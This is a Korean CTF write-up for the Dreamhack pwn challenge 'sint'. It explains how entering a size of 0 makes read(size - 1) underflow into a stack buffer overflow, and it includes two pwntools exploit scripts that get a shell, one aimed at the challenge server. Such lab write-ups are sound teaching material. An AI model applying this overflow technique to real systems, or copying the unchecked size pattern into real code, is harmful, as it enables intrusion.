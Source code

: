 # sint - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 1
- Provided Files: sint.c, sint(ELF)
- tools:
## Brief Description
이 문제는 서버에서 작동하고 있는 서비스(sint)의 바이너리와 소스 코드가 주어집니다.
프로그램의 취약점을 찾고 익스플로잇해 get_shell 함수를 실행시키세요.
셸을 획득한 후, "flag" 파일을 읽어 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
플래그의 형식은 DH{...} 입니다.
## Initial Analysis
### Environment
``` sh
checksec sint
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```
### Code
``` c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main() {
    char buf[256]; 
    int size;

    initialize();

    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0) {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}
```
### signal(SIGSEGV, get_shell)
``` c
void get_shell() {
    system("/bin/sh");
}

int main() {
    // 생략
    signal(SIGSEGV, get_shell); 
}
```
`signal()` 함수는 특정 시그널이 발생했을 때 어떤 함수를 실행할지 지정한다. `SIGSEGV`는 Segmentation Fault 시그널이다. 일반적으로 프로세스가 잘못된 메모리에 접근할 때 발생하며, 보통 프로그램이 바로 죽는다. 세그먼트 폴트가 발생하면 `get_shell` 함수가 실행된다.  
## Vulnerability
### Integer Underflow - BOF(Buffer Overflow)
``` c
scanf("%d", &size);

if (size > 256 || size < 0) {
    printf("Buffer Overflow!\n");
    exit(0);
}

read(0, buf, size - 1);
```
`size`에 0 ~ 256 사이의 범위를 입력하면 `if` 문을 통과할 수 있다. 이때 `size`를 0으로 입력하면 최종적으로 `read(0, buf, 0xffffffff)`가 실행되어 Integer Underflow인해서 BOF 취약점이 발생한다.  
## Exploit
### Strategy
PIE, canary 모두 비활성화 되어있고, BOF 취약점이 발생하는 환경이다. 현재 환경에서 `get_shell` 함수를 호출하는 방법은 2가지다.  
1. `main`의 ra에 적당한 문자열을 덮어써 세그먼트 폴트를 발생시켜 `get_shell` 함수를 호출
2. `main`의 ra를 `get_shell` 함수의 주소로 덮어쓰기 
### Exploitation Steps
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
| ra | 0x4 |
| ebp |  |
| buf | -0x100 |
| size | -0x104 |
### payload
``` python
from pwn import *

p = remote('host1.dreamhack.games', 22372)
context.arch = "i386"

# payload
p.sendlineafter(b'Size: ', b'0')
payload = b''
payload += b'A' * 0x10c
p.sendlineafter(b'Data: ', payload)

# interactive
p.interactive()
```
``` python
from pwn import *

p = process("./sint")
e = ELF("./sint")
get_shell = e.symbols["get_shell"]

p.sendline(b"0")
p.sendline(b"A" * (0x104 + 0x4) + p32(get_shell))

p.interactive()
```

